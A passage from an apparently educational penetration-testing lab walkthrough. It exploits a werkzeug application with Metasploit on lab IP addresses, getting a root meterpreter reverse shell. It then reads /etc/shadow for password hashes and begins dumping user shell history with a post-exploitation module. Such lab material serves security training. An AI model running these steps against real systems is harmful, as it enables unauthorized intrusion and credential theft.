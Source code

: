 Step 7: Configuring the selected werkzeug module and exploiting the application.

Use the following commands to configure the module and exploit the werkzeug application:

Commands:

set RHOSTS 192.73.96.3

set LHOST 192.73.96.2

check

exploit

Thecheckcommand would check if the service on the target is vulnerable to this exploit or not, instead of actually exploiting it. And theexploitcommand would exploit the service, provided that it's vulnerable.

![](../media/Blackbox%20lab%20INE_94.png)

Notice that the werkzeug application has been successfully exploited and we have received back a meterpreter shell.

Let's check the privilege of the meterpreter shell session:

Command:

getuid

![](../media/Blackbox%20lab%20INE_95.png)

As shown in the above output, we have root user privileges!

Now that we have gained a shell session on the target machine, the very first thing would be to look for the existing users, sensitive files/data like hardcoded credentials, etc. We can use popular scripts like LinEnum to quickly identify all possible information related to users and system configurations. This will greatly speed up the process and reduce the manual work that we need to otherwise perform.

We will choose to go with the manual route to show you the complete process but you can use LinEnum as well. It's already available in the Kali GUI instance.

Step 8: Checking available users on the target machine.

Since we are root, we can check the contents of/etc/shadowfile and find the list of all the users, their home directories and even their password hashes:

Command:

cat /etc/shadow

![](../media/Blackbox%20lab%20INE_96.png)

A total of seven users are present on the target machine.

We could now check their home directory to find interesting files or alternatively leverage interesting modules such aspost/linux/gather/enum_users_history.

Step 9: Using theenum_users_historyMetasploit post exploit module to find the user's history file.

Let's use the Linux user shell history enumeration module to find and dump the user's history.
